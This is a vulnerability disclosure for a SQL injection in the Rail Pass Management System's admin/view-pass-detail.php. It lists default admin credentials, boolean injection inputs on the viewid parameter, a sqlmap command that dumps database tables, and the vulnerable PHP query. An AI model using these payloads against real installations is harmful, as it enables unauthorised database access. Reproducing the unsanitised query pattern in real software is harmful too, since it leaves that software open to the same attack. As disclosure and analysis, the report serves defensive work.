 # [Rail Pass Management System-SQL Injection-view-pass-detail.php]

## Basic Information

**[Bug Reporter]:** DiliLearngent

**[Application Vendors]:** `https://phpgurukul.com/rail-pass-management-system-using-php-and-mysql/`

**[Test Environment]:** windows10+apache+php5.6+mysql5.5

**[Install]:**

1. Download the zip file

2. Extract the file and copy `rpms` folder

3. Paste inside root directory(for xampp xampp/htdocs, for wamp wamp/www, for lamp var/www/HTML)

4. Open PHPMyAdmin (http://localhost/phpmyadmin)

5. Create a database with the name `rpmsdb`

6. Import `rpmsdb.sql` file(given inside the zip package in the SQL file folder)

7. Run the script `http://localhost/rpms`

**Credential for Admin panel :**

**Username:** admin
**Password:** Test@123

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://localhost/rpms/admin/view-pass-detail.php?viewid=1`    

**[Vulnerability Location]:** /rpms/admin/view-pass-detail.php

**[Vulnerability Test]:**

1. When you enter `1%20and%201=1` in the `viewid` parameter, the page displays as follows:

   ![](../../img/20230427192806.png)

2. When you enter `1%20and%201=2` in the `viewid` parameter, the page displays as follows:

   ![](../../img/20230427192829.png)

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://localhost/rpms/admin/view-pass-detail.php?viewid=1" --cookie="PHPSESSID=4acbjc61q1opnkih7qmkd6g9t7" -D rpmsdb --tables --batch
   ```

   ![](../../img/20230427165849.png)

**[code analysis]:**

/rpms/admin/view-pass-detail.php

```php
$vid=$_GET['viewid'];
$sql="SELECT * from  tblpass where ID=$vid";
$query = $dbh -> prepare($sql);
$query->execute();
$results=$query->fetchAll(PDO::FETCH_OBJ);
$cnt=1;
if($query->rowCount() > 0)
{
foreach($results as $row)
{               ?>
```

The GET parameter `viewid` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.